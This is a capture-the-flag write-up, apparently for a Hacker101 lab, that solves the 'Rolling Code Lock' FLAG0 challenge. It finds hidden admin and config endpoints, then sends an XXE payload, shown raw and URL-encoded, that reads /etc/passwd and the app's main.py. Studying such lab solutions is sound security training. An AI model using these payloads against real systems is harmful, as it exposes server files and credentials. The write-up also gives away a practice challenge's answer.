








# Model E1337 - Rolling Code Lock - FLAG0

## 0x00 Home



Tried couple of different code but all show errors.

```
Code incorrect. Expected 06947342
```

## 0x01 Directory

Try scan sub directory with Burp



And there is a comment in source code.

http://127.0.0.1/xxxxxxxxxx/admin



## 0x02 get-config

http://127.0.0.1/xxxxxxxxxx/get-config

Looks like some config thing using XML



## 0x03 set-config

http://127.0.0.1/xxxxxxxxxx/set-config

It actually exist but may need parameter to set the XML



## 0x04 XXE

Prepare the XXE payload.

```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "/etc/passwd">]><config><location>&xxe;</location></config>
```

And encode to [url format][1] 

```
%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22%2Fetc%2Fpasswd%22%3E%5D%3E%3Cconfig%3E%3Clocation%3E%26xxe%3B%3C%2Flocation%3E%3C%2Fconfig%3E
```

http://127.0.0.1/xxxxxxxxxx/set-config?param=%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22%2Fetc%2Fpasswd%22%3E%5D%3E%3Cconfig%3E%3Clocation%3E%26xxe%3B%3C%2Flocation%3E%3C%2Fconfig%3E



Successfully write in XXE and 302 redirect to admin page and read out /etc/passwd



## 0x05 main.py

```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "main.py">]><config><location>&xxe;</location></config>
```

http://127.0.0.1/xxxxxxxxxx/set-config?data=%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22main.py%22%3E%5D%3E%3Cconfig%3E%3Clocation%3E%26xxe%3B%3C%2Flocation%3E%3C%2Fconfig%3E

Execute and get the FLAG in the [main.py][2]



[1]: https://www.urlencoder.org/
[2]: ./main.py